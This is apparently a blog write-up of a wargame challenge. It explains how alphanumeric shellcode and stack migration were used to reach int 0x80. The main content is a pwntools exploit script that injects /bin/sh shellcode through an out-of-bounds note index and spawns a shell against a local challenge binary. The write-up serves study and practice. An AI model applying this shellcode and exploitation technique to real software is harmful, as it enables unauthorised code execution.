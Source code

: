 ```yaml
---
layout: post
title: AlphaNumeric Shellcode + Stack Migration
---
```

This challenge is from a wargame ( I can't name it though). It involved using alphanumeric shellcode and somehow placing the 0xcd80
(int 0x80) next to our shellcode. Since 0xcd80 can only be obtained using some xor operations, we can only push this on the stack.
There was no way to mov this value from the stack to the heap, where our shellcode is, so only option left was to migrate stack to
heap and then push this value and a NOP sled from the other end of our available space. So, this means that our available space
decreases by twice the derivative.

It is mandatory that ecx and edx be set to 0.

```python
#!/usr/bin/python
from pwn import *

p = process("./chall")
raw_input()
def make_note(idx,name):
	p.recvuntil("choice :")
	p.sendline("1")
	p.recvuntil("Index :")
	p.sendline(str(idx))
	p.recvuntil("Name :")
	p.sendline(name)
	log.success("Created Note #" + str(idx))

def delete_note(idx):
	p.recvuntil("choice :")
	p.sendline("3")
	p.recvuntil("Index :")
	p.sendline(str(idx))
# Do some xor operations to get cd and 80. push on stack.
# push esp
# migrate stack to heap. Then push cd80. Then nops.
# int 0x80 there.
# eax contains heap address

shellcode = asm("push ecx")
shellcode += asm("push ecx")
shellcode += asm("push ecx")
shellcode += asm("push 0x68732f2f")
shellcode += asm("push 0x6e69622f")
shellcode += asm("push esp")
shellcode += asm("pop ebx")
shellcode += asm("pop edi")
shellcode += asm("pop edi")
shellcode += asm("pop edi")
shellcode += asm("pop eax")
shellcode += asm("pop edi")

# ebx contains pointer to index_value.
# edx now contains actual -19 value
# Stack Migration. Also push ret.
shellcode += asm("pop esi")
# esi contains return address.
# Get to next note.

shellcode += asm("push 0x5e")
shellcode += asm("pop edi")
shellcode += asm("xor [esp],edi")
shellcode += asm("pop esp")
#shellcode += asm("push esi")

# push opcodes for int 0x80

# inc esp strategy

shellcode += asm("push 0x7e")
shellcode += asm("pop edi")
shellcode += asm("inc edi")
shellcode += asm("inc edi")
# stack pointing to 0x80
shellcode += asm("push 0x4d")
shellcode += asm("xor [esp],edi")
shellcode += asm("inc esp")
shellcode += asm("inc esp")
shellcode += asm("inc esp")
shellcode += asm("push di")
shellcode += asm("dec esp")
# Now start nopping the whole area. (for loop)
for i in range(0,2):
	shellcode += asm("push 0x47474747")

# hopefully, we have int 0x80 there.

# eax = 0; ebx contains pointer to /bin/sh
# Restore stack back, execute ret (somehow) and then attack phase 2.
# 0x000000cd 0xffffff80 memory layout to achieve.

shellcode += asm("inc edi")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")
shellcode += asm("inc eax")

print "Shellcode length: " + str(len(shellcode))
print shellcode
make_note(-19,shellcode)
raw_input()
delete_note("-19")
p.interactive()
```
